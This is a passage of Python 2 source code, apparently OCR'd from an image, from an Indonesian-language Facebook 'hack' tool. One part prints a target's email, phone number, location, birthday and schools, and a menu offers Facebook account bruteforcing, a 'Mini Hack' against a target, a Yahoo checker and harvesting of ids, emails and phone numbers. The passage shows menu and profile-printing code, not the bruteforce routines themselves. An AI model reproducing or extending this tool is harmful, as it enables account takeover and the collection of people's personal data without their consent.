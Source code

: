                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mEmail\x1b[1;97m         : ' + z['email']
                    except KeyError:
                        print '\x1b[1;91m[?] \x1b[1;92mEmail\x1b[1;97m         : \x1b[1;91mTidak ada'
                    else:
                        try:
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mNomor HP\x1b[1;97m      : ' + z['mobile_phone']
                        except KeyError:
                            print '\x1b[1;91m[?] \x1b[1;92mNomor HP\x1b[1;97m      : \x1b[1;91mTidak ada'

                        try:
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mLokasi\x1b[1;97m        : ' + z['location']['name']
                        except KeyError:
                            print '\x1b[1;91m[?] \x1b[1;92mLokasi\x1b[1;97m        : \x1b[1;91mTidak ada'

                    try:
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mTanggal Lahir\x1b[1;97m : ' + z['birthday']
                    except KeyError:
                        print '\x1b[1;91m[?] \x1b[1;92mTanggal Lahir\x1b[1;97m : \x1b[1;91mTidak ada'

                try:
                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mSekolah\x1b[1;97m       : '
                    for q in z['education']:
                        try:
                            print '\x1b[1;91m                   ~ \x1b[1;97m' + q['school']['name']
                        except KeyError:
                            print '\x1b[1;91m                   ~ \x1b[1;91mTidak ada'

                except KeyError:
                    pass

            raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
            menu()
    else:
        print '\x1b[1;91m[\xe2\x9c\x96] Pengguna tidak ditemukan'
        raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
        menu()


def menu_hack():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()

    os.system('clear')
    print logo
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    print '\x1b[1;37;40m1. Mini Hack Facebook(\x1b[1;92mTarget\x1b[1;97m)'
    print '\x1b[1;37;40m2. Multi Bruteforce Facebook'
    print '\x1b[1;37;40m3. Super Multi Bruteforce Facebook'
    print '\x1b[1;37;40m4. BruteForce(\x1b[1;92mTarget\x1b[1;97m)'
    print '\x1b[1;37;40m5. Yahoo Checker'
    print '\x1b[1;37;40m6. Ambil id/email/hp'
    print '\x1b[1;31;40m0. Kembali'
    print
    hack_pilih()
